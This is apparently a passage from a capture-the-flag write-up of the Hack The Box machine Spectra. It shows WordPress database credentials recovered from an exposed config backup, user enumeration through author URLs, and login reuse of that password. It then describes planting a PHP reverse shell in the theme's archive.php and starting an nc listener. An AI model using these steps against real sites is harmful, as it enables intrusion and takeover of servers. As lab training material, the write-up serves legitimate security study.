 ```php
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

```

Let's save the db credentials maybe we use them later:
```php
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

We can enumerate username as follow:

```http://spectra.htb/main/?author=1```

```http://spectra.htb/main/?author=2``` etc..

We can see we have ```administrator``` user.

Because It's wordpress we can try login with the following link [http://spectra.htb/main/wp-login.php](http://spectra.htb/main/wp-login.php).

If we try username ```adminsitrator``` and password ```devteam01``` (from ```wp-config.php.save```) It's work.

Using the following article [https://pentaroot.com/exploit-wordpress-backdoor-theme-pages/](https://pentaroot.com/exploit-wordpress-backdoor-theme-pages/) we can get reverse shell by editing WordPress Theme using the following php reverse shell [http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz).

So Let's edit the ```archive.php```.

Click on Appearance -> Theme Editor -> Select Twenty Seventeen -> Archive.php and paste the php reverse shell:

![themeeditor.JPG](images/themeeditor.JPG)

Listen on port ```1234``` (in my case):
```console
┌─[evyatar@parrot]─[/hackthebox/Spectra]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...

```